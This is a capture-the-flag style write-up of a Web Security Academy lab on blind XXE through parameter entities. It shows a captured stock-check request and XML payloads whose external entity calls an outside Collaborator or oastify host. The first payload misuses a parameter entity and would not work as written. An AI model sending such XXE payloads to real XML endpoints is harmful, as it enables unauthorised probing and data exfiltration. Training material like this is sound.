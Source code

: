 

### Solution

Clicking on checkstock feature send the following request, 

```xml
POST /product/stock HTTP/1.1
Host: Da8300cf94a26be480260884005700e8.web-security-academy.net
Cookie: session=sUKKadfdsfwFN8qZnb8SyEtJbdsdsdmyhtyty
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://Da8300cf94a26be480260884005700e8-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://Da8300cf94a26be480260884005700e8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
To solve the lab we need to make an out bound request to our collaborator server to solve the lab.

For this we can use the following payload

```xml
<!DOCTYPE root [<!ENTITY  % ext SYSTEM "http://burp-collaborator.net/">]>
<stockCheck>
  <productId>%ext;</productId>
  <storeId>1</storeId>
</stockCheck>
```

### 🔹 Modify Request with Parameter Entity Payload

Replace the original XML with the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://q6x580qbz3i8x9wutkq9i4bg97fy3ord.oastify.com">
  %xxe;
]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
